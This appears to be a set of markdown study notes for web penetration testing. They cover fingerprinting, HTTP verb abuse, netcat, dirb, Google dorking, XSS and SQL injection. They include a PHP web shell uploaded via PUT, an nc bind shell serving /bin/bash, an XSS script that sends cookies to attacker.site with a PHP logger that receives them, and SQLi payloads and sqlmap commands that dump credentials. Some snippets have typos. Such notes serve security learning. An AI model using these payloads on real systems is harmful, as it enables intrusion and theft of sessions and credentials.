

# Web Attacks

## Fingerprinting with `nc`, `openssl` & `httprint`

Web applications use different technologies and programming paradigms compared to desktop apps:

* Web applications often make up the vast majority of the internet-facing surface.
* It can be done manually and by using automatic tools.
* Fingerprinting a web server means:
  * Web Server Service: IIS, Apache, nginx.
  * Version.
  * OS hosting the server.

```bash
# Manual Banner grabbing by sending requests to the server
# Output will be different for a Debian Linux Box, Apache Server running on Red Hat, MS IIS running on a MS Windows.
# `Netcat` does not perform any kind of encryption, so you cannot use it for HTTPS.

> nc <target_address> 80    # You must write your request after running the command
HEAD / HTTP/1.0             #  Write the request in uppercase always.

# `openssl` is a CLI to manually use various features of the OpenSSL SSL/TLS toolkit
# You can use it to establish a connection to an HTTPS service then send the usual HEAD HTTP verb:

> openssl s_client -connect target.site:443
HEAD / HTTP/1.0

# Another example:
printf 'GET / HTTP/1.1\r\nHost: github.com\r\n\r\n' | ncat --ssl github.com 443

# `httprint` is a web server fingerprinting tool that uses a signature-based technique to identify webservers
> httpprint -P0 -h <target hosts> -s <signature file>

# -PO to avoid pinging the host
# -h <target hosts> tells the tool to fingerprint a list of hosts, it is advised to use the IP address of the hosts you want to test
# -s set the signature file to use
```

## HTTP Verbs

* REST APIs are specific type of webapp that relies strongly on almost all HTTP verbs
* In REST APIs is common to use PUT for saving data, and not for saving files
* If you confirm a PUT or DELETE during an engagement, you should confirm its exact impact twice

```bash
# GET is used to request a resource
GET /page.php HTTP/1.1
Host: www.example.site

# You can also pass arguments to the web application
GET /page.php?course=PTS HTTP/1.1
Host: www.example.site

# POST is used to submit HTML form data
# POST parameters must be in the message body
POST /login.php HTTP/1.1
Host: www.example.site

username=john&password=mypass

# HEAD is very similar to GET, as it asks just headers of the response instead of the response body
HEAD / HTTP/1.1
Host: www.example.site

# PUT is used to upload a file to a server
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT DATA>

# DELETE is used to remove a file from the server
# Must be configured wisely as it might lead to DoS and data loss
DELETE /path/to/destination HTTP/1.1
Host: www.example.site

# OPTIONS is used to query the web server for enabled HTTP Verbs
OPTIONS / HTTP/1.1
Host: www.example.site
```

## Exploiting Misconfigured HTTP verbs

* 1st you enumerate verbs with an OPTIONS message in `nc`
* To exploit the DELETE verb, you just have to specify the file you want to delete from the server
* Exploiting PUT is more complex, because you have to know the size of the file you want to upload on the server, you can measure with `wc -m file` to count how long, in bytes, a payload is.
* Misconfigured HTTP verbs are becoming rare in web servers.
* You can still find a lot of misconfigured HTTP methods in embedded devices, IP cameras, digital video recorders and other smart devices.

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content length: 20

<?php phpinfo(); ?>
```

```bash
# PHP Shell

> nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

if (isset($_GET['cmd'])) {
  $cmd = $_GET['cmd'];
  echo '<pre>';
  $result = shell_exec($cmd);
  echo $result;
  echo '</pre>';
}
```

## `nc`

```bash
# => server/listener
nc -lvp 8888
# -l listen
# -v verbose
# -p port
# -e execite

# => client
nc -v 127.0.0.1 8888

# => udp server
nc -lvup 9999

# => udp client
nc -vu localhost 9999

# Send text from Client to Server
# => Server
nc -lvp 8888 > received.txt
# => Client
echo "hello" | nc -v localhost 8888

# Send file from Client to Server
# => Server
nc -lvp 8888 > received.txt
# => Client
cat to_be_sent.txt | nc -v localhost 8888

# Bash command
# => Server
nc -lvp 5555 -e /bin/bash

# => client
echo 'ls' | nc -v localhost 5555
```

## Directories and Files Enumeration

> Ability to:
>
> * Find and utilize testing features
> * Exploit information saved in backup or old files
> * Find hidden resources

Enumeration helps you find those "hidden" resources that often contain:

* New and untested features
* Backup files
* Testing information
* Developer's notes

Two ways of enumerating resources:

* Pure brute-force
* Dictionary attacks

Tool:

* OWASP Dirbuster
  * Java application that can perform web resources enumeration
  * You can choose if you want to perform a pure brute-force or a dictionary-based brute-force
  * It's Linux alternative: `dirb`

## Dirb

```bash
dirb http://google.com /usr/share/dirb/wordlists/small.txt -a "USER AGENT HERE"

# Fill up Burpsuite with dirb requests
dirb http://google.com -p http://127.0.0.1:8080
dirb http://google.com -p http://127.0.0.1:8080 -c "COOKIE:XYZ"
dirb http://google.com -p http://127.0.0.1:8080 -u "admin:password" # basic auth
dirb http://google.com -p http://127.0.0.1:8080 -H "MyHeader: MyContent" # basic auth
dirb http://google.com -z 1000 # Add a milliseconds delay to not cause excessive flood
# -S silent
dirb http://google.com -X ".php,.bak" # use extensions
dirb http://google.com -x extensions.txt -z 1000
dirb http://google.com -x extensions.txt -o results.txt # output results to file
```

## Dirbuster

```bash
# Find all machines in the network
nmap -sn 10.104.11.0/24

# Identify the machines role (.96 runs a webserver)
nmap -sV 10.104.11.96,198
```

Find hidden files via dirbuster:



You might find a `config.old` file where the MySQL database connection parameters are visible.

## Google Hacking

Perform information gathering without contacting your targets, ability to find hidden resources: `site:`, `intitle:`, `inurl:`, `filetype:`, `AND`, `OR`, `&`, `|`, `-`

```bash
inurl:(htm|html|php|asp|jsp) intitle:"index of" "last modified" "parent directory" txt OR doc OR pdf
```

## Cross Site Scripting

The attacker can target the web applications's users, and:

* Modify the content of the site at run-time
* Inject malicious contents
* Steal the cookies, thus the session of a user
*   Perform actions on the web application as if it was a legitimate user

    User input is any parameter coming from the client-side of the webapp, as:
* Request headers
* Cookies
* Form inputs
* POST parameters
*   GET parameters

    Actors of a XSS attack:

| Vulnerable Website                            | User/Visitor (Victim)                                                                                                                | Penetration Tester                                                                       |
| --------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------- |
| Inputs should always be validated server side | Code executed/rendered by the browser of the visiting users                                                                          | Making their browsers load malicous content                                              |
| Never ever trust user input                   | XSS vulnerabilities have low priority for developers, as it can be really hard for a victim to realize that an attack is in progress | Performing operations on their behalf, like buying a product or changing a password      |
|                                               |                                                                                                                                      | Stealing the session cookies, thus being able to impersonate them on the vulnerable site |

* Reflection Point: When a search parameter is submitted through a form and gets displayed on the output in an XSS attack
* After finding a reflection point, you have to understand if you can inject HTML code and see if it somehow gets to the output of the page
* Test XSS: `<script>alert('XSS')</script>`

## XSS Types

**Reflected**

* When the malicious payload is carried inside the request that browser of the victim sends to the vulnerable website
* When users click on the link , the users trigger the attack
* `http://victim.site/search.php?find=<payload>`
* Called 'reflected' because an input field of the HTTP request sent by the browser gets immediately reflected to the output page
* Google Chrome has a reflected XSS filter built in to avoid this attack, but only trivial ones

**Persistent**

* Occur when the payload is sent to the vulnerable web server and then stored.
* When a web page of the vulnerable website pulls the stored malicious code and puts it within the HTML output, it will deliver the XSS payload
* The malicious code gets delivered each and every time a web browser hits the "injected" web page
* A single attack can exploit multiple web applications
* The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users
* Element such as comments, user profiles, and forum posts are potential vector for XSS attacks

**DOM Based**

Cookie Stealing via XSS

* When `HttpOnly` flag is disabled, cookies can be stolen
* `<script>alert(document.cookie)</script>`
* With the following code, you can send cookies content to an attacker-controlled site:

```javascript
<script>
  var i = new Image();
  i.src = "http://attacker.site/log.php?q="+escape(document.cookie);
</script>
```

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
flocse($fp);
?>
```





## SQL Injections

They allow an unauthorized user to take control over SQL statements used by a web application. This kind of attack has a huge impact on a web site because getting control over a backend database means controlling:

* User's credentials
* Data of the web application
* Credit Card numbers
* Shopping transactions

To find SQL injections, we need to check any user input (every input must be tested to conduct a professional pentest):

* GET parameters
* POST parameters
* HTTP Headers
  * User-Agent
  * Cookie
  * Accept

Tests can be:

* String terminators: `' and ''`
* SQL commands: `SELECT`, `UNION` and others
* SQL comments: `#` or `--`

## SQL basics

```sql
-- SELECT <columns list> FROM <table> WHERE <conditions>;
SELECT name, description FROM products WHERE id=9;

-- UNION command performs a union between
<SELECT statement> UNION <other SELECT statement>;
```

## Vulnerable Dynamic Queries

```sql
-- This dynamic query expects $id values as a string:
SELECT Name, Description FROM Products WHERE ID='$id'

-- But what if an attacker crafts a $id value which can change the query to something like ` OR 'a'='a` then the query becomes:
SELECT Name, Description FORM Products WHERE UD='' OR 'a'='a';
-- ...which tells the database to select the items by checking two conditions which is always true.

-- An attacker could also exploit the UNION command by supplying the following:
-- ' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a
-- Thus it changes the original query to:

SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';
```

#### Boolean Based SQLi

Once penetration testers find a way to tell when a condition is true or false, they can ask the database some simple True/False questions:

* Is the first letter of the username 'a'?
* Does this database contain three tables?
* ...

We can use two MySQL functions: `user()` and `substring()`:

```sql
-- `user()` returns the name of the user currently using the database:
select user();

-- `substring()` returns a substring of the given argument. It takes 3 parameters:
--  - the input string
--  - the position of the substring
--  - its length

select substring('elarnsecurity', 2, 1)

-- We can use both together:
substring(user(), 1, 1);        -- it might return 'r' for 'root' user

substring(user(), 1, 1) = 'r'   -- if it returns 1 -> True; 0 -> False

-- Combining those features, we can iterate over the letters of the username by using payloads as:
-- ' or substr(user(), 1, 1) =='a
-- ' or substr(user(), 1, 1) =='b
-- when we find the first letter then we can move to the second and so on in order to guess the entire username.
```

#### UNION Based SQL Injections

Many times some of the results of a query are directly displayed on the output page. This behavior can be exploited using the UNION SQL command.

```sql
-- The following payload forces the web application to display the result of the `user()` function on the output page.

SELECT description FROM items where id='' UNION SELECT user(); -- -';

-- The comment at the end of the line prevents the following part of the original query from being parsed by the database, comments the rest from the original query.
-- The comment also contains a third dash because most of the browsers automatically remove trailing spaces in the URL so.
-- If you need to inject a comment via a GET request, you have to add a character after the trailing space of the comment*.
-- Also used if we don't want our web application to add anything in the url after our injection.
```

To exploit a SQL injection you first need to know how many fields the vulnerable query selects, you do this by trial and error. We know there's an injection by `' UNION SELECT null; -- -`, this should display:

```bash
Warning: mysql_fetch_array() expects parameter 1 to be mysql_result, boolean given in /var/www/view.php on line 32
```

* We can try with two fields: `' UNION SELECT null null; -- -` and three even to confirm that the original query only has two fields.
* Once we know how many fields are in the query it's time to test which fields are part of the output page.
* You can do that by injecting some known values and checking thee results in the output page, as in: `' UNION SELECT 'elsid1', 'elsid2'; -- -`.
* Now we can exploit the injection: `' UNION SELECT user(), 'elsid2'; -- -`.
* Not only `SELECT` queries are vulnerable.

## SQLMap

* Can detect and exploit SQL injections
* Needs to know the vulnerable URL and the parameter to test for a SQLi

```bash
sqlmap -u <URL> -p <injection parameter> [options]
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
sqlmap -u <url> --data=<POST string> -p id [options] # POST string as user=a&pass=a

# You can copy the POST string  from a request intercepted in Burp Suite
sqlmap -r file.req -p user
sqlmap -u 'http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=231&Submit=Submit#' --cookie="PHPSESSID=26faf41ffba440ce1346b8d8ca9408ac; security=low" -D dvwa -T users --dump

# --technique=U --> UNION based SQL injection technique
# --banner shows server's banner
# --flush-session

sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D awd -T accounts --dump
```

#### From discord (to test)

```sql
1' UNION SELECT 1-- -
3' AND sleep(5) -- -
SELECT 1, schema_name,3 FROM information_schema.schemata limit 1,1-- -
SELECT 1, table_name,3 FROM information_schema.tables WHERE table_schema=hotel limit 1,1-- -
SELECT 1, column_name,3 FROM information_schema.columns WHERE table_schema=hotel and table_name=room limit 1,1
SELECT 1, table_name,3 FROM information_schema.tables limit 1,1-- -
SELECT group_concat(email,0x3a,Password) from awd.accounts limit 1,1;
```
